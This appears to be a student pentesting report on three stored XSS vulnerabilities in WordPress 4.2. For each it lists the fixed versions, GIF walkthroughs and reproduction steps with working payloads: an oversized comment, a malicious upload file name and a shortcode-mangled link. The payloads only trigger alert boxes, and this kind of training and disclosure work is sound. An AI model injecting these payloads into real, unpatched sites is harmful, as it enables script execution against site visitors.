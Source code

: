 # Project 7 - WordPress Pentesting

Time spent: **2** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2 
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: 
    - <img src="CommentXSS.gif" width="800">
  - [ ] Steps to recreate: 
    - Make a comment on a page that has at least 64KB of content, for example: 
    
    `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>`
    
  - [ ] Affected source code:
    - [Not the actual source code, but describes the vulnerability](https://klikki.fi/adv/wordpress2.html) 
2. WordPress 3.3-4.7.4 - Large File Upload Error XSS
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: 
    - <img src="LargeFileXSS.gif" width="800">
  - [ ] Steps to recreate: 
    - Upload a large file, atleast 100MB in size that has the desired payload as the file name, such as `Somefile<img src=x onerror=alert(“Vulnerability!”)>.png`.
  - [ ] Affected source code:
    - [Github Link](https://github.com/WordPress/WordPress/commit/8c7ea71edbbffca5d9766b7bea7c7f3722ffafa6)
3. WordPress < 4.2.3 Stored XSS
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: 
    - <img src="PageXSS.gif" width="800">
  - [ ] Steps to recreate: 
    - Requires you to be able to create pages, create a link like `<a href=“[caption code=“>]</a><a title=“ onmouseover=alert(‘test’) “>link</a>`.Wordpress shortcode processing will turn this into `<a href="</a><a title=" onmouseover=alert('test')  ">link</a>`.
  - [ ] Affected source code:
    - [Not the actual source code, but describes the vulnerability](https://klikki.fi/adv/wordpress3.html)
